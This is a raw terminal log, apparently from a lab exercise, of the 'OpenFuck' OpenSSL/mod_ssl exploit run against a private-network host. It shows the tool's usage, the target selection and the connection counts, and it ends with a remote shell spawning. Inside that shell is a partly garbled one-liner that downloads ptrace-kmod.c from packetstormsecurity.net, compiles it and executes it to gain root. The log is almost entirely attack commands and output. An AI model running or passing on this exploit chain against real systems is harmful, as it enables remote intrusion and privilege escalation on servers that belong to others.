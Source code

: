 ```bash
root@kali:/opt/OpenLuck# ls
OpenFuck  OpenFuck.c  README.md

root@kali:/opt/OpenLuck# ./OpenFuck

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./OpenFuck target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)

root@kali:/opt/OpenLuck# ./OpenFuck 0x6a 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
root@kali:/opt/OpenLuck# ./OpenFuck 0x6b 192.168.88.129 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f81c8
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--13:24:59--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 404 Not Found
```